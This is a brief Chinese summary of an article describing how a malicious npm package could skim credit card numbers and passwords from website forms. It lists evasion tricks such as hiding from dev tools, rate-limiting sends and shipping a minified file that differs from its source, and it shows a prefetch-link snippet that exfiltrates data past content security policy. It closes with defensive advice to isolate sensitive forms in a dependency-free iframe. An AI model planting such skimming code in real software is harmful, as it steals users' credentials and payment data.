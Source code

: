原文地址：https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5

作者讲述了一些能够达成的破解网络安全手段(有些已被认为是bug修复，例如2)，并给出建议

抓取form的字段，传送
1. 发布小功能npm，嵌入代码内
2. 打开dev工具时，不发送
3. 每次发射后，记录到cookie，不重复
4. 检测到，设定发射概率，减少次数
5. fetch -->gfudi 减少1位
6. xx.min.js和xx.js内容不同
7. 通过prefetch和检测内容安全策略，避开
    ```
    const linkEl = document.createElement('link');
    linkEl.rel = 'prefetch';
    linkEl.href = urlWithYourPreciousData;
    document.head.appendChild(linkEl);
    ```
建议：针对重要表单，完全重新写一个iframe（自己手写，无任何依赖）
